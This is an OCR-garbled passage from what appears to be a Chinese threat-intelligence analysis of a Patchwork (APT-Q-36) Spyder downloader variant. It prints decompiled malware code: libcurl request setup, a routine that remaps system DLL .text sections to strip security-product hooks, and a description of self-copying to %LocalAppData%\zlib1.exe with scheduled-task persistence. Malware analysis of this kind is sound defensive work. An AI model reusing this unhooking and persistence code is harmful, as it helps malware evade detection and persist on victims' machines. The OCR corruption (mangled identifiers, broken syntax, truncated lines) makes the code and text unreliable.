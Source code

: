 https://mp.weixin.qq.com/s/M6xoCfqMCSDsv32S0vrGEw  

if（v1）  

sub_409560((int)v1,10002,"https://api.github.com/repos/whoshuu/cpr/contributors?anon=true&key=value");   
sub_409560((int)v2,43,1);   
sub_409560((int)v2,10005,"user:pass");   
sub_409560((int)v2,10018,"curl/7.42.0);   
sub_409560((int)v2,68, 50);   
sub_409560((int)v2,213, 1);   
sub_4065Fo((int)v2,2097154,(int)v6);   
sub_4065F0((int)v2, 3145731, (int)v5);   
sub_4065F0((int)v2,1048577,(int)v4);   
sub_406670(V2);  

重新映射多个系统DLL的.text段，以解除对这些模块设置的挂钩。  

![](https://cdn-mineru.openxlab.org.cn/extract/75eef432-8dd2-4be9-b9e5-abcf2e14a2ea/11568018f9148aa302ecdc5f14339e1633628043410379ea64e54a40cf0b73f6.jpg)  

hProcess $=$ GetCurrentProcess();   
memset(&modinfo,0, sizeof(modinfo));   
hModule $=$ GetModuleHandlew(this);   
if（!hModule） return -1;   
memset(Buffer,O, sizeof(Buffer));   
GetSystemDirectoryw(Buffer,Ox20oou);   
lstrcatw(Buffer,&String2);   
lstrcatw(Buffer,this);   
if（!K32GetModuleInformation(hProcess，hModule，&modinfo，OxCu)) return -1;   
LpBaseofDll $=$ modinfo.lpBaseofDll;   
Lpstring2a $=$ (LPCWSTR)modinfo.lpBaseOfDLl;   
hobject $=$ CreateFilew(Buffer,Ox8000000,1u,0,3u,0,0);   
FileMappingw $=$ CreateFileMappingw(h0bject, 0, 0x1000002u, 0, 0,0);   
$\vee3=$ (char \*)MapViewofFile(FileMappingw, 4u, 0, 0, 0);   
v4 $=\odot$   
$v5~=$ (IMAGE_NT_HEADERS \*)((char \*)lpBaseOfDLl $^+$ LpBase0fDll[15]);   
v10 $=$ v3;   
if (v5->FileHeader.NumberofSections)   
{ do { V6 $=$ (IMAGE_SECTION_HEADER\*)（(char\*)&v5->OptionalHeader $^+$ 40 $\star$ V4 $^+$ v5->FileHeader.SizeOfoptionalHeader); if（1lstrcmpA((LPCSTR)v6,“.text"）） floldProtect $=\Theta$ ， VirtualProtect((char \*)lpstring2a $^+$ v6->VirtualAddress, v6->Misc.PhysicalAddress, 0x40u, &floldProtect); memmove(（char \*)lpstring2a $^+$ v6->VirtualAddress,&v10[v6->VirtualAddress],v6->Misc.PhysicalAddress); VirtualProtect((char \*)ipstring2a $^+$ v6->VirtualAddress, v6->Misc.PhysicalAddress, floldProtect, &floldProtec ++V4; while( $\lor4<\lor5$ ->FileHeader.NumberofSections );   
CloseHandle(hProcess);   
CloseHandle(hobject);   
CloseHandle(FileMappingW);   
FreeLibrary(hModule);   
return 0;  

样本设置多个只触发一次的计划任务，指向"%LocalAppdata%\zlib1.exe"，并将自身复制为"% LocalAppdata%\zlib1.exe"。  

摩诃草（APT-Q-36）Spyder下载器新变种及后续组件分析  
